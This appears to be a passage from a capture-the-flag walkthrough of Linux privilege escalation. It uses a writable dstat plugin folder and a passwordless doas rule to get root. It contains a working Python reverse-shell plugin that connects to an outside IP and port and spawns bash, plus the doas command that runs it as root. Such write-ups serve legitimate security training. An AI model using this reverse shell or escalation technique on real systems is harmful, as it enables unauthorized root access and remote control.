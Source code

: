 **Writeable Folders**
```bash
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                                                                                           
  Group player:                                                                                                                                                                                                                             
/usr/local/share/dstat                                                                                                                                                                                                                      
```

**doas installed**
```bash
-rwsr-xr-x 1 root root 42K Nov 17 09:09 /usr/local/bin/doas                                                                                                                                                                                 
```

**doas.conf**
```bash
permit nopass player as root cmd /usr/bin/dstat
```

## Become Root

We will create a new dstat plugin in **/usr/local/share/dstat** that will execute python code.  

**dstat_os.py**
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.75",4001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

**Load Custom Plugin**
```bash
doas -u root /usr/bin/dstat --os
```

We are now root :) 